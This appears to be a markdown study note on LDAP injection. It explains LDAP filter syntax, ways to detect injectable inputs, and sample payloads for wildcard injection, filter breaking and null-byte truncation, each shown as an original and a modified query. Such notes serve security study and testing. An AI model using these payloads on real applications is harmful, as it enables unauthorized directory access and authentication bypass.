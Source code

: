 ```yaml
---
title:  "LDAP injections"
topic: "web"
---
```

# Introduction
* LDAP: Lightweight Directory Access Protocol
* Used to access directory services over a network. Directory: hierarchically organized data store
* Examples:
  * Microsoft ADAM (Active Directory Application Mode)
  * OpenLDAP
* Commonly used in intranet-base web applications
* Simple match conditions on the value of one attribute: `(username=greg)`
* Disjunctive queries: `(|(cn=searchterm)(sn=searchterm)(ou=searchterm))`
* Conjunctive queries: `(&(username=greg)(password=dumbpassword))`
* Not possible to retrieve different attributes than the query was intended to retrieve
* Rarely return informative error message: blind LDAP injection


# Detection
* Available informations: results returned, HTTP 500 error
* Differentiating between SQL and LDAP: wildcard character `*`
* Number of closing brackets: `)))))))))`. May break something else, so need to make sure we're dealing with LDAP before
* `cn` attribute (supported on all LDAP implementations):
  * `)(cn=*`
  * `*))(|(cn=*`
  * `*))%00`


# Injections
* Wildcard: `)(department=*)`
```
(|(department=London searchterm)(departement=Reading searchterm))       # Original query
(|(department=London)(department=*)(department=Reading)(department=*))  # Modified query
```
* If multiple search filters allowed (OpenLDAP for example): `*))(&(username=searchterm`
```
(&(username=searchterm)(department=London*))                 # Original query
(&(username=*))(&(username=searchterm)(department=London*))  # Modified query
```

* Null bytes comments: `*))%00`
```
(&(username=searchterm)(department=London*))      # Original query
(&(username=*)) [NULL byte](department=London*))  # Modified query. Everything after the null byte is ignored
```

